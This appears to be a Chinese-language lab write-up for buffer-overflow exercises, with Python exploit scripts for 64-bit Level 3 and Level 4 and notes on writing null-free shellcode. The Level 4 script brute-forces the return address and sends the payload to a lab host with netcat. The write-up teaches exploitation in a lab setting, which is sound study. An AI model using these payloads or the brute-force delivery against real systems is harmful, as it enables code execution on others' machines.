 **64位 Level3**

64位的程序高两位为0x00，而`strcpy()` 会停止复制当遇到0x00时，所以我们必须将shellcode存放在返回地址之前（start\<ebp+8直接设置start = 0），否则会被`strcpy()` 0x00截断而无法覆盖到栈上

```python
start =  0  #start必须尽量小，使shellcode在返回地址之前
content[start:start + len(shellcode)] = shellcode
​
# Decide the return address value 
# and put it somewhere in the payload
buff= 0x00007fffffffdff0
rbp = 0x00007fffffffe0c0
ret = buff +start  #start=0，其实就是buff的地址
offset = rbp - buff + 0x8           # 由于是64位所以加8
​
# Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + 8] =  (ret).to_bytes(8,byteorder='little')
```

**64位 Level4**

buffer空间变得很小，也就是说，我们无法直接把shellcode直接填充到buff中，利用main中的str，因为我们的`badfile`文件内容一开始是直接读取并存放在main的str变量中，关键点在**爆破出str变量的地址**

```python
start =  517-len(shellcode) # Change this number 
content[start:start + len(shellcode)] = shellcode
print('len of shellcode:',len(shellcode))
# Decide the return address value 
# and put it somewhere in the payload
buff= 0x00007fffffffe130
rbp = 0x00007fffffffe190
​
ret = rbp  # Change this number 
offset = rbp - buff + 0x8           # Chage this number 
print('offset:',offset)
​
# Use 4 for 32-bit address and 8 for 64-bit address
for i in range(0, 100):
   ret += 60    
   content[offset:offset + 8] = (ret).to_bytes(8, byteorder='little')
   with open('badfile', 'wb') as f:
      f.write(content)
   print('ret:',hex(ret))
   print(os.system("cat badfile | nc 10.9.0.8 9090"))   
```

### Lab5 shellcode编写实验

编写shellcode的挑战：

* 确保二进制文件中没有0x00
  * sub操作：通过减法操作生成所需的字节。例如，如果需要生成 `0x01`，使用 `0xFF` 减去 `0xFE` 来得到 `0x01`，而不是直接写入 `0x01`。
  * XOR 操作：任何数与自身异或的结果都是 `0`。例如，如果要生成一个值且不包含 `0x00`，可以先将一个非零的值 XOR 与它自身，再与所需的值进行 XOR
  * 单字节写入：通过分多次写入较小的值来构造一个较大的值。可以避免在任何单次写入中包含 `0x00`
  * **左右移位**：通过**将寄存器中的值左移或右移**来改变其值，而不是直接写入一个可能包含 `0x00` 的值。例如，可以**将一个寄存器的值左移 8 位，然后通过 OR 操作与另一个不包含 `0x00` 的值合并**
  * 与空（\&null）绕过：通常涉及到使用 AND 操作与一个特定的值，以确保结果中不包含 `0x00`。例如，可以将一个值与 `0xFEFEFEFE` 进行 AND 操作，确保结果中不包含 `0x00`
* 找出命令中使用的数据的地址
  * 数据在执行期间被推入堆栈，因此可以从堆栈指针获得它们的地址
  * 数据存储在代码区域中，就在调用指令之后，因此在调用调用函数时，其地址被推入堆栈（作为返回地址）
